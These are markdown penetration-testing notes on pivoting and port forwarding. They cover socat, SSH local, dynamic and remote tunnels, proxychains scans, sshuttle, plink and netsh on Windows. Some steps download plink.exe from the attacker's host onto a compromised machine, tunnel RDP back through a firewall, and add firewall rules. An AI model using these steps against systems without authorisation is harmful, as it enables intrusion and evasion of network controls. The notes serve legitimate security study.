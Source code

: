 # Port Forwarding

## Linux

### Socat Port Forwarding
Via `socat`:
```bash
socat -ddd TCP-LISTEN:<port to listen on>,fork TCP:<IP to forward to>:<port to forward to>
```
Remember it is useful to select a high port to listen on (>1000), since our choice of port there is arbitrary, but we cannot have ports below 1000, as we require admin privileges to bind to those!

### SSH Local Port Forwarding
Execute this command on machine 1:
```bash
ssh -N -L 0.0.0.0:<port for machine 1 to listen on>:<machine 3 IP>:<machine 3 port> user@<machine2 IP>
```
Nb. if this command fails try spawning a shell with TTY capabilities:
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
### SSH Dynamic Port Forwarding
```bash
ssh -N -D 0.0.0.0:<port for machine1 to listen on> user@<machine2 IP>
```
We omit any information about `machine3` here, since we'll handle that when we come to use the tunnel. We now make use of `Proxychains`. Before we make a connection attempt we need to replace any existing proxy information in `/etc/proxychains4.conf` with the following config info about `machine1`:
```
socks5 <machine1 IP> <port machine1 is listening on>
```
Now `machine3` is effectively reachable from our Kali host, we just need to prepend `proxychains` to the command that we'd like to run through the tunnel. Eg.
```bash
proxychains nmap -sV -sT -A <machine3 IP>
```

### SSH Remote Port Forwarding
This addresses the event where a firewall or similar network layer controls are preventing us from opening any additional ports listening for inbound traffic other than the one that our reverse shell is currently running through, but is not inhibiting traffic outbound on any port. It is similar to Local Port Forwarding, but conceptually shifted.

The tunnel we will establish will run from `machine1` as the SSH client, out port 22, to port 22 on our Kali host which is serving as the SSH server. The tunnel will then loopback from port 22 on Kali to `127.0.0.1:<local port of our choosing>`. This SSH connection will be unusual in that it will forward traffic from the server to the client. We will specify this in the command we use to establish the tunnel.

We begin by starting the SSH server on Kali:
```bash
sudo systemctl start ssh
```
We reverse the flow of traffic by specifying that this is a remote port forwarding connection via the `-R` flag (as opposed to the `-L` flag we used for the local variant):
```bash
ssh -N -R 127.0.0.1:2345:<machine2 IP>:<machine2 listening port> kali@<our IP>
```
We have now established a tunnel that is listening on `127.0.0.1:2345`, that will forward traffic via port 22 on `machine1` on to `machine2`.

### SSH Remote Dynamic Port Forwarding
This is a trivial extension of what we've seen in remote port forwarding and dynamic port forwarding. Once again we will establish a tunnel from `machine1` to our Kali host, that will then execute a loopback and listen on a specified port on our Kali host. However this time we will not specify the details of `machine2` in our original tunnel, and once again hand over to `proxychains` to facilitate a seamless tunneling experience. Nb. this time we need only specify the port for our host to loop back to, the SSH default behaviour for this command is to hit `127.0.0.1`:
```bash
ssh -N -R 2345 kali@<our IP>
```
Remembering to add the information about the listener to our `/etc/proxychains4.conf`:
```
socks5 127.0.0.1 2345
```
Now `machine2` is effectively reachable as if it weren't behind a firewall:
```bash
proxychains nmap -sV -sT -A <machine2 IP>
```

### sshuttle
This tool seems to do some of the heavy lifting from the commands above, assuming we already have port 2222 forwarding traffic to the `machine2` SSH server:
```bash
sshuttle -r user@<machine1 IP>:2222 <CIDR range 1> <CIDR range 2> ...
```

## Windows

### SSH
`ssh.exe` is a thing and work in precisely the same manner with the same flags. No need to repeat ourselves.

### Plink
Begin in the usual fashion:
```bash
sudo cp /usr/share/windows-resources/binaries/plink.exe .
python3 -m http.server 80
```
```powershell
wget -Uri http://<our IP>/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
Principles are much the same, however `plink.exe` cannot do Dynamic Remote Port Forwarding \*cries in Windows\*. For a standard remote port forward:
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:2345:127.0.0.1:3389 <our IP>
```
The significance of port `3389` is that this is the RDP port, and therefore our choice of port for the traffic to loopback to once it's gone though port 22. On our Kali host `2345` will be the port serving our loopback. We can now use this to upgrade a shell to a previously firewalled off RDP session:
```bash
xfreerdp /v:127.0.0.1:2345 /u:username /p:password
```

### netsh
If we have admin on a Windows machine then we will be able to run the Windows native port forwarding tool `netsh`. For a simple port forward on a Windows `machine1`:
```powershell
netsh interface portproxy add v4tov4 listenport=<machine1 port> listenaddress=<machine1 IP> connectport=<machine2 port> connectaddress=<machine2 IP>
```
To remove when we're done:
```powershell
netsh interface portproxy del v4tov4 listenport=<machine1 port> listenaddress=<machine1 IP>
```
If there happens to be a firewall preventing us from directly connecting to the `machine1` port then `netsh` is also our friend:
```powershell
netsh advfirewall firewall add rule name="our_firewall_rule_name" protocol=TCP dir=in localip=<machine1 IP> localport=<machine1 port> action=allow
```
To remove when we're done:
```powershell
netsh advfirewall firewall delete rule name="our_firewall_rule_name"
```
